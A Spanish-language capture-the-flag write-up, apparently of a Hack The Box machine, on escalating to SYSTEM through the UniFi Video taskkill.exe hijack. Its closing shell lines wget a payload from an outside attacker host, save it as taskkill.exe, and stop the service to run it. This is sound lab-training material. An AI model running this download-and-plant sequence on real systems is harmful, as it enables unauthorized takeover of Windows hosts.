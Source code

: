 # PrivEsc

Al entrar lo primeeeero que me llama la atención es el archivo unifivideo, que si mal no recordé en ese momento, se trata de uno de los productos de Ubiquiti. Buscando con google acerca de este producto, encontraremos un [exploit local](https://www.exploit-db.com/exploits/43390), el cual abusa de los privilegios de la carpeta unifi-video, ya que el servicio avService.exe que corre con la cuenta NT AUTHORITY/SYSTEM, le otorga sus permisos (ACL). El riesgo es que es posible ejecutar un archivo arbitrario "taskkill.exe" como NT AUTHORITY/SYSTEM, porque cada vez que el servicio es iniciado y terminado, busca primero dentro de la carpeta "C:\ProgramData\unifi-video\" si el ejecutable se encuentra.

Cualquier usuario que pueda escribir en "C:\ProgramData\unifi-video\" y que pueda iniciar y terminar el servicio, podrá explotar esta vulnerabilidad. Y eso es precisamente lo que vamos a hacer.

Primero verificamos que la versión instalada es vulnerable, buscando el archivo de configuración dentro de la carpeta "C:\ProgramData\unifi-video\":

``` text
[10.10.10.104]: PS C:\Users\Stacy> cd c:\programdata\unifi-video\
[10.10.10.104]: PS C:\programdata\unifi-video> dir


    Directory: C:\programdata\unifi-video


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        6/16/2018   9:54 PM                bin
d-----        6/16/2018   9:55 PM                conf
d-----        6/16/2018  10:56 PM                data
d-----        6/16/2018   9:54 PM                email
d-----        6/16/2018   9:54 PM                fw
d-----        6/16/2018   9:54 PM                lib
d-----        2/16/2019  12:19 AM                logs
d-----        6/16/2018   9:55 PM                webapps
d-----        6/16/2018   9:55 PM                work
-a----        7/26/2017   6:10 PM         219136 avService.exe
-a----        2/16/2019  12:00 AM          34855 hs_err_pid1328.log
-a----        2/16/2019  12:00 AM      471599465 hs_err_pid1328.mdmp
-a----        6/17/2018  11:23 AM          31685 hs_err_pid1992.log
-a----        6/17/2018  11:23 AM      534204321 hs_err_pid1992.mdmp
-a----        8/16/2018   7:47 PM              0 hs_err_pid2036.mdmp
-a----        2/16/2019  12:19 AM          34477 hs_err_pid3336.log
-a----        2/16/2019  12:19 AM      523514725 hs_err_pid3336.mdmp
-a----        6/16/2018   9:54 PM            780 Ubiquiti UniFi Video.lnk
-a----        7/26/2017   6:10 PM          48640 UniFiVideo.exe
-a----        7/26/2017   6:10 PM          32038 UniFiVideo.ico
-a----        6/16/2018   9:54 PM          89050 Uninstall.exe


[10.10.10.104]: PS C:\programdata\unifi-video> cat .\data\system.properties
# unifi-video v3.7.3
#Sat Jun 16 21:58:13 EDT 2018
is_default=false
uuid=e79d440a-62cd-4274-95c3-d746cbb3b817
# app.http.port = 7080
# app.https.port = 7443
# ems.liveflv.port = 6666
# ems.livews.port = 7445
# ems.livewss.port = 7446
# ems.rtmp.enable = true
# ems.rtmp.port = 1935
# ems.rtsp.enable = true
# ems.rtsp.port = 7447
```

[10.10.10.104]: PS C:\Users\Stacy\Documents> ls
[10.10.10.104]: PS C:\programdata\unifi-video> Get-ChildItem -recurse HKLM:\SYSTEM\CurrentControlSet\Services | findstr -i "unifi"
[10.10.10.104]: PS C:\programdata\unifi-video> wget http://10.10.13.121:4001/r.exe -O taskkill.exe
[10.10.10.104]: PS C:\programdata\unifi-video> stop-service UniFiVideoService